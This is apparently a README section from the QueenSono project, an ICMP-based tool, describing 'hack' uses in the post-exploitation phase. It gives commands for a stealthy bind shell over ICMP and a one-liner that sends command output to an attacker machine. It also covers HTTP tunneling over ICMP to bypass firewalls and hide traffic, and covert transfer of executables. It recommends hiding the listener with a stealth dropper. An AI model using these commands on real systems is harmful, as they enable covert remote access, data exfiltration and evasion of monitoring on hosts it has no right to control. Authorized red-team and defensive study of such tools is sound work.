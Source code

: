 # Hack

<p align="center"><sup>🧞 "All scripts are there for inspiration and are probably not stable. If you see a good use case and need a more reliable solution, please open an issue"</sup></p>

Some fun things using `QueenSono`
- [Bind Shell](#bind-shell)
  - [One-liner redirect command output](#one-liner-redirect-command-output)
- [HTTP over ICMP tunneling](#http-over-icmp-tunneling)
- [Send binary file](#send-binary-file)

## Bind Shell
<h5 align="center">In <code>QueenSono/hack/bindshell</code></h5>

<p align="center"><i> It is a "bind shell" through ICMP so it is quite ordinary if it takes time or if all commands are not well treated</i></p>

### Use case
***In Post exploitation phase:*** Sometimes, and for the post exploitation phase it is more suited, you need a bind shell. if ICMP is less monitored than other protocol (eg TCP), having a bind shell trough `QueenSono` is more stealthy.

#### How to do it?

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-bindshell.gif)
On both machines you need to have `qssender`and `qsreceiver`

*> On the target machine:* Launch your listener
```
./listener.sh <ip_listening_for_icmp>
```

*> On the attacker machine:* Bind to the target shell
```
./bindshell.sh <ip_target> <ip_listening_for_icmp>
```

*Product placement: To be stealthly, you `listener` should use a dropper and hide its presence. You could find a stealth dropper example in [fileless-xec](https://github.com/ariary/fileless-xec) repo.*

### One-liner redirect command output

Useful if you can't spawn a shell and thus don't have output for command. You could redirect the output to your attacker machine:
```
export CMD=$([cmd]);qssender send "$CMD" -d 1 -l $LISTEN -r $REMOTE -s 100 -N
```

## HTTP over ICMP tunneling

For a much more sophisticated ICMP tunneling solution see [icmptunnel](https://github.com/DhavalKapil/icmptunnel)

<h5 align="center">In <code>QueenSono/hack/tunneling</code></h5>

<p align="center"><i> Access internet by tunneling HTTP request with ICMP</i></p>

### Use case
* Access internet but firewall rules block http traffic but allow icmp 
* If you want to hide your http tracks 
* Access internal webapp (in this case, put the `qsproxy` in the target machine and `qscurl` in the attacker machine)

#### How to do it?
```
need cap_net_raw cap         need internet access

        ┌───────────┐         ┌───────────────┐           ┌────────────┐
        │           │    1    │               │    2      │            │
        │  qscurl   └─────────►    qsproxy    └───────────►World  wide │
        │           ◄─────────┐               ◄───────────┐    web     │
        └───────────┘    4    └───────────────┘     3     │            │
                                                          └────────────┘
```
1 & 4 are using icmp protocol
2 & 3 are using http protocol

*> On the attacker machine:* Launch the proxy
```
./qsproxy.sh <ip_listening>
```

*> On the target machine:* Order a curl request to be performed by attacker machine
```
# before modify qscurl.sh with according LISTEN and REMOTE addresses
./qscurl.sh http://myawesomeattackersite.com -H \"toto:titi\"
```

## Send binary file

*It is also applicable for all non-human readable files.*

Launch your listener on receiver machine:
```
qsreceiver receive -l 0.0.0.0 -f [binary64] && cat [binary64] | base 64 -d > [binary] && chmod +x [binary]
```

On sender machine, encode binary file, send it, remove temporary file:
```bash
cat [binary] | base64 > tmpBinary64
qssender send file -d 1 -l 0.0.0.0 -r [receiver_ip] -s 50000 tmpBinary64 # It is recommanded to use -s 50000 but you could put another value
rm tmpBinary64
```

        
        
